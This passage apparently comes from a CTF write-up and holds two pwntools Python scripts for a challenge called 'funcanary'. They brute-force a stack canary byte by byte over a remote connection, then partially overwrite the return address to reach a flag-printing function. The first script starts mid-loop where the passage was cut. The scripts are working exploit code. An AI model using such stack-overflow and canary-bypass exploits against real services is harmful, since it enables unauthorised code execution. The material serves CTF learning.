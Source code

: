 ```c
            canary += chr(i)
            break

print(canary)

i=0
while True:
    sa("welcome\n", b'd' * 0x68 + flat(canary) +b'm'*8+ p8(0x2E) +p8(0x2+0x10*i))
    i=i+1
    if(i==0x10):
        i=0
    if b"flag" in p.recvline():
        break;

```
#### 脚本二：利用页的大小累加控制第4位
```c
from pwn import *
context(log_level='debug',arch='amd64',os='linux')

#io = process('./funcanary' )
io = remote('123.56.135.185',42164)
io.recvuntil('welcome\n')
canary = b'\x00'

for k in range(7):
    for i in range(0x100):
        io.send('a'*0x68 + canary + chr(i))
        a = io.recvuntil("welcome\n")
        #print(a)
        if "fun" in a:
            canary += chr(i)
            print("canary: ", canary)
            break

cat_flag = 0x0231

for i in range(16):
    io.send('a'*0x68 + canary + 'b'*8 + p16(cat_flag))
    a = io.recvuntil("welcome\n")
    cat_flag += 0x1000
    if "flag" in a:
        print(a)
        break

io.interactive()
```
